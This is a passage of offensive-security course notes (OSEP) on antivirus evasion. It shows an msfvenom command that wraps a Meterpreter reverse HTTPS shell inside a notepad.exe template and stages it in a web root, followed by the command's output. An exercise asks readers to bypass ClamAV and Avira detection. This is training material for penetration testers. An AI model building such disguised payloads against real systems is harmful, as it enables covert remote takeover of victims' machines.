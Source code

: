 We could use the -x option to specify a different template. To do this, we'll copy the notepad application located at C:\Windows\System32\notepad.exe to Kali and use it as a template as follows:

```
kali@kali:~$ sudo msfvenom -p windows/x64/meterpreter/reverse_https LHOST=192.168.176.134 LPORT=443 -e x64/zutto_dekiru -x /home/kali/notepad.exe -f exe -o /var/www/html/met64_notepad.exe
...
Attempting to encode payload with 1 iterations of x64/zutto_dekiru
x64/zutto_dekiru succeeded with size 758 (iteration=0)
x64/zutto_dekiru chosen with final size 758
Payload size: 758 bytes
Final size of exe file: 370688 bytes
Saved as: /var/www/html/met64_notepad.exe
```

> Listing 22 - Specifying notepad.exe as a template

We'll copy the generated executable to our Windows 10 victim machine and again scan it with Avira. However, Avira flags it once again (Figure 6).

![[OffSec/OSEP/Course/z. images/f283c99d0c1e61e4dc0b691dc725431a_MD5.jpg]]

Figure 6: Avira detecting Meterpreter with notepad template

So far, we have used Metasploit encoders to successfully bypass ClamAV signature detection, but we were not successful against Avira. Clearly, Metasploit encoders are no longer widely effective for this purpose. In the next section, we will investigate the effectiveness of specific encryption techniques for this task.

#### Exercise

1. Experiment with different payloads, encoders, and templates to try to bypass signature detections in both ClamAV and Avira.

1

(Daniel Sauder, 2015), [https://danielsauder.com/2015/08/26/an-analysis-of-shikata-ga-nai/](https://danielsauder.com/2015/08/26/an-analysis-of-shikata-ga-nai/) [↩︎](https://portal.offsec.com/courses/pen-200-44065/learning/vulnerability-scanning-48659/wrapping-up-48703/wrapping-up-48710#fnref-local_id_5134-1)

2

(Nick Hoffman, Jeremy Humble, Toby Taylor, 2019), [https://www.boozallen.com/c/insight/blog/the-zutto-dekiru-encoder-explained.html](https://www.boozallen.com/c/insight/blog/the-zutto-dekiru-encoder-explained.html) [↩︎](https://portal.offsec.com/courses/pen-200-44065/learning/vulnerability-scanning-48659/wrapping-up-48703/wrapping-up-48710#fnref-local_id_5134-2)

### 9.4.2. Metasploit Encryptors

Rapid7, the developers of Metasploit, launched updated options for encryption in 2018, which were designed to address the growing ineffectiveness of encoders for antivirus evasion. We will investigate these options next.

Let's investigate the effectiveness of this feature. To begin, we'll run msfvenom with --list encrypt to list the encryption options:
